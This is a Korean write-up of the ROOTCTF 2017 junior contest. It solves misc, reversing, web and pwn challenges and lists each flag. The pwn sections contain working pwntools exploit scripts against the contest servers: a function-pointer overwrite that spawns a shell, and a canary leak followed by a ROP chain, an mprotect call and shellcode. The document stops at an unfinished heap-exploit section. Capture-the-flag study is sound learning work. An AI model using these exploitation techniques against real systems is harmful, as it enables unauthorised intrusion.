






# ROOTCTF 2017 (Junior) WriteUp 


2017.12.22 09:00:00 ~ 2017.12.23.21:00:00 (총 36시간)

Solve : Misc - 5/5 / Pwn - 5/5 / Web - 4/5 / Reversing - 3/5

Rank : 1

NickName : NextLine

Name : 이영주 (선린인터넷고)

## Welcome 50 (Misc)
```
제 1회 서울디지텍고등학교 해킹방어대회 
에 오신 것을 환영합니다
모든 문제의 정답은 다음과 같은 형식을 가지고 있습니다 
정답 형식 = FLAG{내용} 

FLAG{Welcome_to_Seoul_Digitech_ROOT_CTF} 
```

FLAG : FLAG{Welcome_to_Seoul_Digitech_ROOT_CTF} 
<br><br><br>
## Calculate 167 (Misc)
```
누가 내 패스워드좀 알려줘!
hint : 역연산

Link
```

문제에서는 아래와 같은 python코드가 주어진다.
```python
def one(num, size):
    r = num + size
    r += 915
    return r


def two(num, size):
    r = num - size
    r -= 372
    return r


def three(num, size):
    r = num ^ size
    r ^= 826
    return r


def four(num, size):
    size %= 32
    r = num >> (32 - size)
    b = (num << size) - (r << 32)
    return b + r


if __name__ == "__main__":
    result = [5040, 4944, 5088, 4992, 7232, 4848, 7584, 7344, 4288, 7408, 7360, 7584, 4608, 4880, 4320, 7328, 7360,
              4608, 4896, 4320, 7472, 7328, 7360, 4608, 4752, 4368, 4848, 4608, 4848, 4368, 4944, 7200]
    string = raw_input("Input String : ")
    Number = []
    tmp = 0

    for i in string:
        Number.append(ord(i))

    for i in Number:
        Number[tmp] = one(i, 100)
        tmp += 1
    tmp = 0

    for i in Number:
        Number[tmp] = two(i, 100)
        tmp += 1
    tmp = 0

    for i in Number:
        Number[tmp] = three(i, 100)
        tmp += 1
    tmp = 0

    for i in Number:
        Number[tmp] = four(i, 100)
        tmp += 1

    print Number
    if Number == result:
        print "Correct!!"
    else:
        print "Incorrect.."
```

역연산 해주면 된다.
```python
def one(num, size):
    a = num - 915
    a -= size
    return a

def two(num, size):
    a = num + 372
    a += size
    return a

def three(num, size):
    a = num ^ 826
    a = a ^ size
    return a

def four(num, size):
    a = num / 16
    return a

if __name__ == "__main__":
    Number = [5040, 4944, 5088, 4992, 7232, 4848, 7584, 7344, 4288, 7408, 7360, 7584, 4608, 4880, 4320, 7328, 7360,
              4608, 4896, 4320, 7472, 7328, 7360, 4608, 4752, 4368, 4848, 4608, 4848, 4368, 4944, 7200]
    tmp = 0

    for i in Number:
        Number[tmp] = four(i, 100)
        tmp += 1
    tmp = 0

    for i in Number:
        Number[tmp] = three(i, 100)
        tmp += 1
    tmp = 0

    for i in Number:
        Number[tmp] = two(i, 100)
        tmp += 1
    tmp = 0

    for i in Number:
        Number[tmp] = one(i, 100)
        tmp += 1

flag = ''
for i in Number:
    flag += chr(i)

print flag
```

FLAG : FLAG{Rev3rse_P1us_M1nus_X0R_R0L}
<br><br><br>
## Vocabulary 460 (Misc)
```
플래그가 적힌 친구의 단어장을 잃어버렸다 
어서 빨리 찾아야 된다.
그 친구가 화내기 전에 플래그라도 찾아보자
hint : PNG height

Link
```

PNG 파일을 받아서 string을 확인해보면 아래와 같은 내용이 있다.
```
{VOcAbulAry}
_________________________________________________________
vAluE
		|vAry
ExpEriENcE
		|ENSurE
 ..
rEfErENcE
		|rEquESt
			|
thrOugh ...
	|vAry
iDENtify
	|ENSurE
 ..
cONcErN
	|rEquESt
			|
AblE
		|vAry
likEly ...
	|ENSurE
 ..
_________________________________________________________
rEMAiN
 ...
	|rEquESt
			|
ENcOurAgE
	|vAry
ApplE
		|ENSurE
 ..
DEtErMiNE
	|rEquESt
			|
iMplEMENt
	|vAry
NEcESSAry
	|ENSurE
 ..
gENErAl
	|rEquESt
			|
_________________________________________________________
ThiS lEttEr wAS firSt iNtrODucED iN ENglAND AND luckED
ArOuND thE wOrlD A yEAr, AND NOw thiS lEttEr tO yOu
ShOulD lEAvE yOu withiN fOur DAyS. YOu MuSt SEND SEvEN Of
thESE, iNcluDiNg thiS lEttEr, tO SOMEONE whO NEEDS gOOD
luck. COpyiNg iS AlSO rEcOMMENDED. It MAy bE
SupErStitiON, but it iS truE.IN ADDitiON, thE FLAG MAy
bE........bEE.......bEEEE.....{ tHANk_FiND_MY_vOCAbuLAry
}. MAybE NOt. Or iNcrEASE the hEight tO 1000px.
```
파일의 높이를 1000px 증가시키라고한다. 해주면 된다.



FLAG : FLAG{_1vErticAl_2rEADiNg_3TAStlSb}
<br><br><br>

## Do you know ㅁㅁㅁ? 706 (Misc)
```
어렵디 어려운 이 문제... 누가 풀 것인가?
복호화 사이트 -> ㅁㅁㅁencryption.com
hint1 : cat == 고양이
hint2 : md5encryption.com
hint3 : dog == 갯수

Link
```

플레그를 찾으라면서 아래와같은 파일을 준다.
```
Find the Flag!
[0 = 4dog] [2 = 1dog] [4 = 4dog] [5 = 4dog]
[6 = 1dog] [7 = 1dog] [8 = 2dog] [9 = 3dog]
[a = 4dog] [b = 3dog] [c = 3dog] [d = 2dog]


g d a 6 v z 1 3
d o 9 8 j 0 1 x
1 b i 9 8 1 2 6
b z 9 6 y u 3 1

k 6 9 7 j i h z
k y i j t b i n
y 9 5 g f j 7 b
3 n i u t g h m

a b c d e f g h
1 d 7 9 7 9 6 6
c b a w c g 9 9
c c a a c c d d

f 1 5 1 2 g 4 1
h 6 4 c b 1 0 8

...
...

```
0 = 4dog를 해석하면 0이 4개있다는거다. 그 조건에 맞는 문자열을 아래서 찾은다음 md5encryption.com 에서 decrypt하면 flag가 나온다.

FLAG : FLAG is FLAG{MD5_3nCryPt_Ye@h!}
<br><br><br>

## Find the flag 913 (Misc)
```
문제 출제자는 크리스마스에 혼자 보내야 된다는 생각에 화가 나서 플래그를 숨겨버렸습니다.
문제 출제자가 숨긴 플래그를 찾아주세요!
HINT:JS file,WebCacheV01.dat 분석
Link
```

WebCacheV01.dat 분석하면 되는데 esedatabaseview를 가지고 분석하면 된다.
보다보면 아래와같이 구글드라이브에 들어간게 있다.



똑같이 들어가서 flag를 검색해보면 존재한다.



FLAG : FLAG{I3_Br0wser_F0r3ns1c_4ND_RoUgh_W0rk}
<br><br><br>

## Stage Game 229 (Rev)
```
인내의 시간..
Stage Level 1~10
hint : Sleep

Link
```

바이너리를 받아보면 Stage 1부터 10까지 기다리면 Flag를 주는데 강제로 10위치로 eip를 바꾸고 Sleep 인자를 0으로 주면 Flag를 출력한다.



FLAG : FLAG{Y0ur_p4t1enc3_1s_gr3at!}
<br><br><br>

## ECG 863 (Rev)
```
게임을 하는데 캐릭터가 죽어버렸다
어서 빨리 살려서 다시 게임을 하자
hint : xor

Link
```

바이너리 구조는 매우 간단한데, 그냥 입력값을 고정된 값과 xor하여 특정한 값과 비교한다. 고정된 값과 특정 값을 xor하면 flag가 나온다.
```python
xor_list = [0xc,0x6,0xa,0xf,0xa,0xc,0xd,0x2,0x7,0x8,0x7,0x3,0x7,0x1,0x9,0x8,0x5,0xf,0x1,0xb,0x5,0x3]
flag_str = 'Mh;y;mR1@OijQhHW6Ah=hB'
flag = ''
for i in range(22):
	flag += chr(ord(flag_str[i]) ^ xor_list[i])

print "FLAG{" +flag +"}"
```

FLAG : FLAG{An1v1a_3GGniViA_3Ni6mA}
<br><br><br>

## Present 934 (Rev)
```
점수가 들어있는 간단한 문제상자입니다. 
우회해야 할까? 말아야 할까? 
hint : FLAG.find("Hello") == 5 

Link
```

바이너리를 ida로 열어보면 아래와 같은 소스가 존재한다.
```c
int main()
{
  char v1; // [sp+Ch] [bp-F4h]@1
  int v2; // [sp+D0h] [bp-30h]@1
  char v3; // [sp+D4h] [bp-2Ch]@1
  int v4; // [sp+E0h] [bp-20h]@1
  __int16 v5; // [sp+E4h] [bp-1Ch]@1
  char v6; // [sp+E6h] [bp-1Ah]@1
  char Str[4]; // [sp+F0h] [bp-10h]@1
  unsigned int v8; // [sp+FCh] [bp-4h]@1
  int savedregs; // [sp+100h] [bp+0h]@1

  memset(&v1, 0xCCu, 0xF4u);
  v8 = (unsigned int)&savedregs ^ __security_cookie;
  strcpy(Str, "Ir[Gm{");
  v4 = 1181706596;
  v5 = 25961;
  v6 = 0;
  v2 = 1598448680;
  v3 = 0;
  while ( 1 )
  {
    IsDebuggerPresent();
    if ( debug_check_1() == 1 )
      break;
    sub_4113B6(Str, (int)&v4);                  // print flag
  }
  sub_4113B6(Str, (int)&v4);
  sub_411208();
  sub_41128A(&savedregs, &dword_412C9C);
  sub_41129E();
  return debug_check_1();
}
```
또한 플레그를 출력하는 부분은 아래와 같다.

```c
int __cdecl sub_412A00(char *Str, int a2)
{
  size_t v2; // eax@4
  char v4; // [sp+Ch] [bp-CCh]@1
  unsigned int i; // [sp+D0h] [bp-8h]@3

  memset(&v4, 0xCCu, 0xCCu);
  if ( sub_411375() == 1 && !byte_41B141 )
  {
    for ( i = 0; ; ++i )
    {
      v2 = j_strlen(::Str);
      if ( i >= v2 )
        break;
      sub_41135C((const char *)&unk_418C30, ::Str[i]); // print FLAG
    }
    sub_41135C((const char *)&unk_418C30, byte_41B005); // print {
    sub_4113CA(Str, a2); // print flag_content
    sub_41135C("%c\n", byte_41B006); // print }
  }
  return debug_check_1();
}
```
flag의 내용을 출력하는 sub_4113CA 안에도 출력하는 부분이 나눠져 있는데, 그 부분은 아래와 같다.

```c
// print flag_content - 1 
int __cdecl sub_412680(char *Str, int a2)
{
  int v2; // esi@1
  size_t v3; // eax@2
  char v5; // [sp+Ch] [bp-104h]@1
  unsigned int i; // [sp+D0h] [bp-40h]@1
  int v7; // [sp+DCh] [bp-34h]@1
  int v8; // [sp+E0h] [bp-30h]@1
  int v9; // [sp+E4h] [bp-2Ch]@1
  int v10; // [sp+E8h] [bp-28h]@1
  int v11; // [sp+ECh] [bp-24h]@1
  int v12; // [sp+F0h] [bp-20h]@1
  int v13; // [sp+F4h] [bp-1Ch]@1
  int v14; // [sp+F8h] [bp-18h]@1
  int v15; // [sp+FCh] [bp-14h]@1
  int v16; // [sp+100h] [bp-10h]@1
  int v17; // [sp+104h] [bp-Ch]@1
  unsigned int v18; // [sp+10Ch] [bp-4h]@1
  int savedregs; // [sp+110h] [bp+0h]@1

  memset(&v5, 0xCCu, 0x104u);
  v18 = (unsigned int)&savedregs ^ __security_cookie;
  v7 = 1;
  v8 = 22;
  v9 = 51;
  v10 = 34;
  v11 = 22;
  v12 = 43;
  v13 = 12;
  v14 = 34;
  v15 = 37;
  v16 = 54;
  v17 = 28;
  v2 = sub_411375();
  *(&v7 + 4 * sub_411375()) = v2;
  for ( i = 0; ; ++i )
  {
    v3 = j_strlen(Str);
    if ( i >= v3 )
      break;
    byte_41B140 = i * i ^ Str[i];
    byte_41B140 ^= *((_BYTE *)&v7 + 4 * i);
    Str[i] = byte_41B140;
  }
  if ( byte_41B141 == 1 )
  {
    sub_41135C((const char *)&unk_418C38, (char)Str);
    sub_4113CF(a2, (int)&v7);
  }
  sub_41128A(&savedregs, &dword_4127C4);
  sub_41129E();
  return debug_check_1();
}

// print flag_content - 2
int __cdecl sub_412D70(int a1, int a2)
{
  size_t v2; // eax@2
  char v4; // [sp+Ch] [bp-E8h]@1
  unsigned int i; // [sp+D0h] [bp-24h]@1
  int v6; // [sp+DCh] [bp-18h]@1
  int v7; // [sp+E0h] [bp-14h]@1
  int v8; // [sp+E4h] [bp-10h]@1
  int v9; // [sp+E8h] [bp-Ch]@1
  unsigned int v10; // [sp+F0h] [bp-4h]@1
  int savedregs; // [sp+F4h] [bp+0h]@1

  memset(&v4, 0xCCu, 0xE8u);
  v10 = (unsigned int)&savedregs ^ __security_cookie;
  v6 = 34;
  v7 = 42;
  v8 = 54;
  v9 = 33;
  *(&v6 + sub_411375()) = *(_DWORD *)(a2 + 32);
  *(&v6 + 3 * sub_411375()) = *(_DWORD *)(a2 + 40);
  for ( i = 0; ; ++i )
  {
    v2 = j_strlen(Str);
    if ( i >= v2 )
      break;
    byte_41B140 = i * i ^ Str[i];
    byte_41B140 ^= *((_BYTE *)&v6 + 4 * i);
    Str[i] = byte_41B140;
  }
  sub_41135C((const char *)&unk_418C38, (unsigned int)Str);
  sub_41128A(&savedregs, &dword_412E88);
  sub_41129E();
  return debug_check_1();
}
```

저렇게 Flag를 출력하는 함수를 정상작동하도록 동적 디버깅을 하면서 Debug 여부나, 바이너리에서 체크하는 flag들을 다 우회해주면 flag가 출력된다.




(바이너리에서는 Helln으로 나오지만 hint에 Hello라고 수정되었다.)

FLAG : FLAG{Hello_SdhsR}
<br><br><br>

## Login 50 (Web)
```
로그인 페이지인데 로그인이 안된다... 
로그인을 성공하고 짱해커가 되어보자!!
Hint : Array, length<6
Hint2 : Get으로 배열을 전송하는 방법, sql injection
Link
```
접속하니 php소스가 있었고, 소스안에 flag가 base64로 인코딩 되어 존재했다.

```php
<?php 
include("dbcon.php"); 
$pw=$_GET['pw']; 
$fpw=$_GET['pw'][1]; 
if(strlen($fpw)>5){ 
    echo "<script>alert('no hack~');location.href='login.html'</script>"; 
} 
$query="select * from Login where pw='$fpw'"; 
$info=mysqli_query($con,$query); 
$result=mysqli_fetch_array($info); 
if($result['id']){ 
    setcookie("flag","VmxjeE1FNUdSbk5UV0hCclUwVmFiMWxzVm1GTlZtUnhVbFJXYVZKdGVGcFdSM0JYWWxaV1ZVMUVhejA9"); 
    echo "<script>location.href='flag.html'</script>"; 
} 
highlight_file("login.php"); 
?>
```

FLAG : FLAG{jjang_easy}
<br><br><br>

## 보물찾기 149 (Web)
```
홈페이지 내에 존재하는 플레그를 찾아보세염!
```

http://sdhsroot.kro.kr/vendor/bootstrap/css/bootstrap.min.css 에 FLAG가 있었다.

FLAG : FLAG{bootstrap_1s_jj4ng}
<br><br><br>

## SPACE PROSPECTION 529 (Web)

```
2023년... SPACE PROSPECTION라는 회사가 화성에 진출했다.
회사의 사이트에 들어가 핵심 기술을 가져오자!!
Link
```
http://sdhsroot.kro.kr/BlackOut/singlepost.html 에 보면 핵심기술을 작업하던 도중 정전이나서 날려먹었다고 한다.
혹시나해서 http://sdhsroot.kro.kr/BlackOut/.singlepost.html.swp 에 들어가봤더니 있었다.

FLAG : FLAG{FROM_2017_FLAG}
<br><br><br>

## Phishing 600 (Web)
```
문제에 오류가 있을수도...
Hint1 : 꺠진 문자열이 플레그일수도,,,
Link
```

들어가서 자바스크립트를 끄면 http://sdhsroot.kro.kr/Phishing/asd.php 에 접속할 수 있는데, 소스는 다음과 같다.
```javascript
<script>
eval(function(p,a,c,k,e,r){e=function(c){return(c<a?'':e(parseInt(c/a)))+((c=c%a)>35?String.fromCharCode(c+29):c.toString(36))};if(!''.replace(/^/,String)){while(c--)r[e(c)]=k[c]||e(c);k=[function(e){return r[e]}];e=function(){return'\\w+'};c=1};while(c--)if(k[c])p=p.replace(new RegExp('\\b'+e(c)+'\\b','g'),k[c]);return p}('4P(4H(p,a,c,k,e,r){e=4H(c){4G(c<a?\'\':e(4R(c/a)))+((c=c%a)>35?4I.4M(c+29):c.4Q(36))};4J(!\'\'.4K(/^/,4I)){4L(c--\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\'),0,{}))\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\',2j,2l,\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\'|||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||25|24|26|28|27|2a|2

...
...
...

||||||||||||||||||||||||||||||||||||||||||||||||||||||||49|4a|4b|4e|4d|4c|4f|4g|4h|4i|4j|4k|4l|4m|4p|4q|4r|4s|4t|4u|4v|4w|4x|4y|4z|4A|4B|4C|4D|4E|4F|4n\\\'.4m(\\\'|\\\'),0,{}))\',4S,4V,\'|||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||4G|4H|4L|4K|4J|4I|4R|4M|4N|4O|4P|4Q|4S|4T|4W|4X|4Y|4Z|50|51|52|53|54|55|56|57|58|59|5a|5b|5c|5d|4U\'.4T(\'|\'),0,{}))',62,324,'||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||return|function|String|if|replace|while|fromCharCode|new|RegExp|eval|toString|parseInt|62|split|for|290|var|257|123|225|125|194|70|161|128|200|95|61|else|continue|alert|65|76|71'.split('|'),0,{}))
</script>
```

jsbeautifier.org에서 난독화를 풀고 보면 아래와 같다.

```javascript
var b = 200;
for (a = 0; a <= 20; a++) {
    b = b + ((a * b) - (a / b));
    if (a == 0) b = 70;
    else if (a == 1) b = 76;
    else if (a == 3) b = 71;
    else if (a == 2) b = 65;
    else if (a == 4) b = 123;
    else if (a == 20) b = 125;
    else if (a == 5) {
        continue
    } else if (a == 6) {
        alert("코");
        continue
    } else if (a == 7) {
        alert("드");
        continue
    } else if (a == 8) {
        alert("속");
        continue
    } else if (a == 9) {
        alert("에");
        continue
    } else if (a == 10) {
        alert(".");
        continue
    } else if (a == 11) {
        alert(".");
        continue
    } else if (a == 12) {
        alert(".");
        continue
    } else if (a >= 4 && a <= 20) {
        continue
    }
    alert(String.fromCharCode(b))
}
```

b가 반복문마다 계속 바뀌는걸 의심해서 아래와같이 코드를 바꾸면 flag를 출력한다.

```javascript
flag = ''
var b = 200;
for (a = 0; a <= 20; a++) {
    b = b + ((a * b) - (a / b));
    if (a == 0) b = 70;
    else if (a == 1) b = 76;
    else if (a == 3) b = 71;
    else if (a == 2) b = 65;
    else if (a == 4) b = 123;
    else if (a == 20) b = 125;
    flag += String.fromCharCode(b);
}
console.log(flag)
```

FLAG : FLAG{ˡᐭꅭ곚삍䘐䣇눛뵼ᩎꓨᶐㆰ}
<br><br><br>


## Point to pointer! 529 (Pwn)
```
넘나 쉬운 문제 당신도 풀 수 있습니다!
nc 222.110.147.52:42632
Link
```

```c
__int64 __fastcall main(__int64 a1, char **a2, char **a3)
{
  char v4; // [rsp+Fh] [rbp-11h]
  void *buf; // [rsp+10h] [rbp-10h]
  unsigned __int64 v6; // [rsp+18h] [rbp-8h]

  v6 = __readfsqword(0x28u);
  setvbuf(stdout, 0LL, 2, 0LL);
  setvbuf(stdin, 0LL, 2, 0LL);
  buf = malloc(0x30uLL);
  *(buf + 2) = sub_400796;
  (*(buf + 2))(48LL, 0LL);
  read(0, buf, 0x64uLL);
  puts("Retry?(Y/N)");
  __isoc99_scanf("%c", &v4);
  if ( v4 == 'Y' )
    (*(buf + 2))();
  else
    puts("Good bye");
  return 0LL;
}
```
위 소스를 보면 입력한 값으로 점프하는데 sub_4007A7()가 쉘을 실행시켜주는 함수다. 그래서 그냥 sub_4007A7()로 뛰면된다.

```python
from pwn import *

s = remote('222.110.147.52',42632)

system = 0x4007a7

s.sendlineafter('RootCTF!',p64(system) * 8)
s.sendline('Y')
s.interactive()
```

FLAG : FLAG is FLAG{P0InT_2_pOiNt_2_PO1t3R!}
<br><br><br>

## Factorization 889 (Pwn)
```
열심히 수련하여 샌드백을 터뜨리자!
nc 222.110.147.52 6975

Link
```

특정 조건을 만족하면 skill에 4번메뉴에서 bof가 발생한다.
```c
unsigned int __cdecl skill(_DWORD *damage, _DWORD *base_num, _DWORD *a3, _DWORD *a4, _DWORD *play_count, void *a6)
{
  int v7; // [esp+18h] [ebp-8h]
  unsigned int v8; // [esp+1Ch] [ebp-4h]

  v8 = __readgsdword(0x14u);
  sub_8048A10();
  __isoc99_scanf("%d", &v7);
  if ( v7 != 1 || *base_num > 14 )
  {
    if ( v7 != 2 || *a3 > 15 )
    {
      if ( v7 != 3 || *a4 > 16 )
      {
        if ( (v7 != 4 || *play_count != 2985984) && *damage != 10000000 )
        {
          puts("I can't\n");
        }
        else
        {
          puts("abracadabra surisurimasuri yap!\n");
          printf("Input your attack:");
          getchar();
          read(0, a6, 0x100u);
          printf("\n%s", a6);
        }
      }
      else
      {
        puts("There's no effect too3\n");
        *damage += 30;
        ++*a4;
        ++*play_count;
      }
    }
    else
    {
      puts("There's no effect too2\n");
      *damage += 25;
      ++*a3;
      ++*play_count;
    }
  }
  else
  {
    puts("There's no effect too1\n");
    *damage += 20;
    ++*base_num;
    ++*play_count;
  }
  return __readgsdword(0x14u) ^ v8;
}
```

play_count가 2985984가 되면 bof가 터지는 루틴이 실행되는데, 바이너리를 대충 보니까 그냥 attack이랑 skill이랑 전부다 한번씩 써주는걸 몇번 반복하면 대충 맞을꺼 같길래 해봤더니 딱맞아서 조건 맞추고 rop해서 풀었다.
그리고 bss에 스택피벗해서 빠르게 풀려고했는데 안돼가지고 그냥 쉘코드올려서 풀었다.

```python
from pwn import *

#s = process('./sandbag')
s = remote('222.110.147.52',6975)

e = ELF('./sandbag')
l = ELF('/lib/i386-linux-gnu/libc.so.6')

pr = 0x08048465
pppr = 0x08048f49
pebpr = 0x08048f4b
leaveret = 0x08048598

def attack(index):
	s.sendlineafter('t\n---------------------------','1')
	s.sendlineafter('e\n---------------------------',index)

def skill(index):
	s.sendlineafter('t\n---------------------------','2')
	s.sendlineafter('l\n---------------------------',index)

def rest(index):
	s.sendlineafter('t\n---------------------------','3')
	s.sendlineafter('p\n---------------------------',index)

for i in range(12):
	for i in range(1,5):
		attack(str(i))

	for i in range(1,4):
		skill(str(i))

rest('4')

pause()

skill('4')
payload = 'A' * 0x41
s.sendafter('your attack:',payload)
s.recvuntil('A' * 0x41)
canary = u32("\x00"+s.recv(3))
log.info("CANARY : " + hex(canary))

payload = 'A' * 0x40 + p32(canary) + "B" * 0x4
payload += p32(e.plt['puts']) + p32(pr) + p32(e.got['puts'])
payload += p32(e.plt['read']) + p32(pppr) + p32(0) + p32(e.bss() + 0x100) + p32(0x100)
payload += p32(pebpr) + p32(e.bss() + 0x100 - 0x4) + p32(leaveret)

skill('4')
s.sendafter('your attack:',payload)

s.sendlineafter('t\n---------------------------','6')

s.recvuntil('Good Bye~\n')
libc_base = u32(s.recv(4)) - l.symbols['puts']

log.info("LIBC LEAK : " + hex(libc_base))

binsh = 0x15b9ab

pause()
payload2 = p32(libc_base + l.symbols['mprotect'])
payload2 += p32(pppr) + p32(e.bss()-0x40) + p32(0x2000) + p32(7)
payload2 += p32(e.bss() + 0x100 + len(payload2) + 4)
payload2 += asm(shellcraft.sh())

s.sendline(payload2)

s.interactive()
```

FLAG : Flag is FLAG{dO_y0u_kNOw_F@ct0rIzAtion?}
<br><br><br>

## Allocate 991 (Pwn)
```
There are many allocation methods in this world.
Learn a lot and get shell
222.110.147.52:28417
Link
```

### Reversing
1. Allocate - 여러 종류로 할당할 수 있다.
2. Modified - 할당한 heap중 calloc으로 할당한 것만 수정할 수 있다.
3. Confirm - 할당한 heap중 calloc으로 할당한 것만 보여준다.
4. Bitwise operation - 비트연산..? (익스할때 필요없어서 안봄)
1222. free - 히든메뉴로 자유롭게 free할 수 있다.

### Vulnerability
히든메뉴에서 malloc_chunk를 3번 free할 수 있는데 초기화가 안되서 fastbin duplicate를 발생시킬 수 있다.

### Exploit
